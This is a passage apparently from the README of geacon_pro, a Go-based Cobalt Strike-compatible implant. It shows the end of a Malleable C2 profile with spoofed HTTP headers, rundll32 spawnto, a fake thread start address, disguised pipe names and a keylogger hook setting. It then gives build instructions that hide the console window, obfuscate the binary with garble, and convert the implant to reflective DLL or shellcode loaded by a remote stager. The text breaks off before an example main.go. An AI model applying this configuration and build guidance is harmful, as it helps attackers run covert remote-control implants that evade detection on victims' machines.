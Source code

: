 ```
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
       	 	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		# this will just print an empty string, meh...
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

post-ex {
    set spawnto_x86 "c:\\windows\\syswow64\\rundll32.exe";
    set spawnto_x64 "c:\\windows\\system32\\rundll32.exe";
    
    set thread_hint "ntdll.dll!RtlUserThreadStart+0x1000";
    set pipename "DserNamePipe##, PGMessagePipe##, MsFteWds##";
    set keylogger "SetWindowsHookEx";
}

```

(4) Compile to exe and execute

Adding `-ldflags "-H windowsgui -s -w"` when compiling binary can reduce the program size and hide the cmd window. When compiling for linux and mac, adding `-ldflags "-s -w"` can reduce the size of the program, and then run it in the background.

**You can use garble to obfuscate geacon_pro.**

### The second method: Convert to reflective dll/shellcode to flexibly load

The first three steps are the same as the first method.

(4) Compile to reflective dll/shellcode

If you don’t want to use the exe generated, you can use this [project](https://github.com/WBGlIl/go-ReflectiveDLL) to convert geacon_pro into reflective dll/shellcode and use the loader to load. If you think that the converted volume is too large(about 6.3M), you can use the downloader(stager) to load the reflective dll remotely.

After moving the files in the geacon_pro directory to this project directory, rename the original "main" function of main.go to "OnPorcessAttach" and mark the export function, then add 'import "C"' and add the main() function, and finally use x64.bat to compile (you can customize the compilation parameters) and generate reflective dll. The example of main.go is given below:
